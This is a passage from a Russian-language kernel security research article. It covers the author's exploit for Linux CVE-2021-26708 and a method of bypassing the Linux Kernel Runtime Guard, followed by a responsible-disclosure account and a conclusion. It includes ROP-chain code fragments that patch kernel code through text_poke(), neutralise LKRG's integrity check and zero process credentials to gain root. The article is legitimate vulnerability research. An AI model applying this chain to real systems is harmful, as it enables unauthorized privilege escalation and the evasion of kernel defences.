		  /* mov rdi, rax ; mov eax, ebx ; pop rbx ; or rax, rdi ; ret */
rop_gadget[i++] = 0x1337;	   /* dummy value for RBX */
rop_gadget[i++] = ROP_POP_RSI_RET; /* pop rsi ; ret */
rop_gadget[i++] = uaf_write_value + CODE_PATCH_OFFSET;
strncpy((char *)xattr_addr + CODE_PATCH_OFFSET, "\x48\x31\xc0\xc3", 5);
rop_gadget[i++] = ROP_POP_RDX_RET; /* pop rdx ; ret */
rop_gadget[i++] = 4;
rop_gadget[i++] = ROP_POP_RAX_RET; /* pop rax ; ret */
rop_gadget[i++] = TEXT_POKE;
		  /* void *text_poke(void *addr, const void *opcode, size_t len) */
rop_gadget[i++] = ROP_JMP_RAX;	   /* jmp rax */
```

Здесь эксплоит подготавливает в регистрах аргументы для вызова функции `text_poke()`, которая и выполнит перезапись ядерного кода:
  1. Адрес цели для перезаписи копируется из `RAX` в `RDI`. Это будет первый аргумент функции. К сожалению, мне не удалось найти меньший гаджет, который сделает это копирование, поэтому здесь на стеке подготовлены дополнительные байты для лишней инструкции `pop rbx` из первого гаджета.
  2. В объекте `sk_buff` по отступу `CODE_PATCH_OFFSET` подготавливается полезная нагрузка `0x48 0x31 0xc0 0xc3` для перезаписи кода. Ее адрес сохраняется в регистр `RSI` в качестве второго аргумента функции.
  3. Третий аргумент функции `text_poke()` — это длина данных для перезаписи. Он передается через регистр `RDX` и имеет значение 4.

Ядерная функция [`text_poke()`](https://elixir.bootlin.com/linux/v5.10/source/arch/x86/kernel/alternative.c#L959) — это штатная функциональность, с помощью которой ядро может изменять свой собственный код в динамике, во время работы. Эта функция на краткое время делает отображение нужного кода доступным для записи и выполняет `memcpy()`. Данной функциональностью как раз пользуется `kprobes` и другие механизмы ядра Linux.

Описанная процедура с `kallsyms_lookup_name()`, `cmove` и `text_poke()` затем выполняется для перезаписи функции `p_check_integrity()` из модуля LKRG. Тем самым эксплоит устраняет защиту LKRG, делая его полностью беспомощным. Теперь можно беспрепятственно повысить привилегии процесса (это уже было описано выше):

```c
#define ROP_MOV_QWORD_PTR_RAX_0_RET	(0xFFFFFFFF8112E6D7lu + kaslr_offset)

/* 3. Perform privilege escalation */
rop_gadget[i++] = ROP_POP_RAX_RET;		/* pop rax ; ret */
rop_gadget[i++] = owner_cred + CRED_UID_GID_OFFSET;
rop_gadget[i++] = ROP_MOV_QWORD_PTR_RAX_0_RET;	/* mov qword ptr [rax], 0 ; ret */
rop_gadget[i++] = ROP_POP_RAX_RET;		/* pop rax ; ret */
rop_gadget[i++] = owner_cred + CRED_EUID_EGID_OFFSET;
rop_gadget[i++] = ROP_MOV_QWORD_PTR_RAX_0_RET;	/* mov qword ptr [rax], 0 ; ret */
```

Финальная часть ROP-цепочки восстанавливает начальное значение регистра `RSP` из данных объекта `sk_buff` по отступу `SAVED_RSP_OFFSET`:

```c
/* 4. Restore RSP and continue */
rop_gadget[i++] = ROP_POP_RAX_RET;		 /* pop rax ; ret */
rop_gadget[i++] = uaf_write_value + SAVED_RSP_OFFSET;
rop_gadget[i++] = ROP_MOV_RAX_QWORD_PTR_RAX_RET; /* mov rax, qword ptr [rax] ; ret */
rop_gadget[i++] = ROP_PUSH_RAX_POP_RBX_RET;	 /* push rax ; pop rbx ; ret */
rop_gadget[i++] = ROP_PUSH_RBX_POP_RSP_RET;
		  /* push rbx ; add eax, 0x415d0060 ; pop rsp ; ret */
```

После этого ядро возобновляет обработку системного вызова `recv()`, но процесс эксплоита при этом обладает привилегиями пользователя `root`. Всё, пожалуй, это была самая сложная часть статьи.

<center><img src="/img/detail.png" width="85%">
<br/>Николай Ломакин. Первая деталь. 1953
</center>
<br/>

## Ответственное разглашение информации

О результатах моих экспериментов с LKRG я сообщил Адаму Заброцки и Александру Песляку ([Solar Designer](https://twitter.com/solardiz)) 10 июня 2021 года. Мы детально обсудили мои способы обхода защиты LKRG и обменялись мнениями о проекте в целом.

С позволения Адама и Александра 3 июля я [опубликовал результаты моего исследования](https://www.openwall.com/lists/lkrg-users/2021/07/03/1) в открытом списке рассылки `lkrg-users`. На момент публикации этой статьи мой метод атаки все еще работает. Для защиты требуется переработка архитектуры LKRG, которая планируются в будущем.

На мой взгляд, LKRG — замечательный проект. Когда я начал изучать его, я сразу же отметил, что Адам и другие разработчики приложили большие усилия, чтобы сделать качественный и красивый продукт. Вместе с тем я убежден, что обнаружение последствий эксплуатации ядерных уязвимостей на уровне самого ядра невозможно. Альберт Эйнштейн [говорил](https://ru.citaty.net/tsitaty/482501-albert-einshtein-nevozmozhno-reshit-problemu-na-tom-zhe-urovne-na-ko/): «Невозможно решить проблему на том же уровне, на котором она возникла».

Другими словами, защита LKRG должна работать на другом уровне или в другом контексте, чтобы обнаруживать деятельность атакующего в ядре. В частности, модуль LKRG мог бы представлять большую преграду для атакующего, если бы он был перенесен на уровень гипервизора или же в Arm Trusted Execution Environment. Такое портирование — сложная инженерная задача, и для ее решения разработчикам LKRG требуется поддержка сообщества и, возможно, заинтересованных в проекте компаний.

## Заключение

В этой статье я описал, как я доработал свой прототип эксплоита для уязвимости [CVE-2021-26708](https://nvd.nist.gov/vuln/detail/CVE-2021-26708) в ядре Linux. Это было интересное исследование с большим количеством практики по возвратно-ориентированному программированию и ассемблеру. Я искал ROP/JOP-гаджеты в памяти работающей системы и смог выполнить переключение ядерного стека (stack pivoting) в ограниченных условиях. Я также провел анализ защиты [Linux Kernel Runtime Guard](https://github.com/openwall/lkrg) с позиции атакующего, разработал новый способ атаки на LKRG и предоставил результаты своего исследования команде разработчиков этого проекта.

Я уверен, что эта статья будет полезна для сообщества разработчиков Linux, поскольку она отражает многие практические аспекты безопасности ядра. И еще я хочу сказать спасибо компании Positive Technologies за возможность провести это исследование.

